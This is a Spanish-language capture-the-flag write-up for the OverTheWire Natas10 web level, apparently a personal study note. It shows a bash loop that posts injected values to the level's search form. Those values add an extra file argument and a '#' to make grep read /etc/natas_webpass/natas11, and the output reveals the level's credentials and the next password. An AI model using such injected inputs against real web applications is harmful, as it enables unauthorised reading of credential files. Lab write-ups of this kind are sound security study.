 # Natas10

(Natas8)[http://natas9.natas.labs.overthewire.org]
*Vulnerabilidad: OS command inyecion o inyeccion de comandos al sistema*
*Restricciones: no meter ciertos caracreres criticos como ;* 

Este nivel es exactamente lo mismo que el anterior, solo que aqui nos filtran el input diciendoq que no podemos meter caracteres como ";"
El tema es que si ponemos la ";" en urlencoder tambien la insterpretará y nos habremos saltado el filtro. ```php > echo urlencode(";");
%3B``` Pero tampoco funciona.

Como el comando hace un ```curl palabra diccionario``` Lo que podemos es meterle nosotros el diccionario del que tirara. El comando va a usar dos diccioanrios por lo  que nos dice de cual esta tirando.
Para asegurarnos de que salgan resultados con el curl, lo mejor es poner letras indiviuales y probar.
Para hacer varias pruebas facilmente, mejor recurrir a un script

```bash
while true; do
    echo -n "$> " && read comando
    curl -s "http://natas10.natas.labs.overthewire.org" -u natas10:nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu -X POST -d "needle=${comando}&submit=" | head -n 23 | tail -n1;
done
```
```console
[cucuxii@parrot]~[natas]:$ bash natas10.sh
$> a /etc/natas_webpass/natas11
dictionary.txt:African
$> b /etc/natas_webpass/natas11
dictionary.txt:B
$> c /etc/natas_webpass/natas11
/etc/natas_webpass/natas11:U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK
$> c /etc/natas_webpass/natas11 #
U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK
```
Truco -> En el ultimo comando como hemos metido un "#" comenta el otro diccionario y solo busca del nuestro /etc/natas_webpass...
Comando que resulta ```grep c /etc/natas_webpass/natas11 # diccionario.txt``



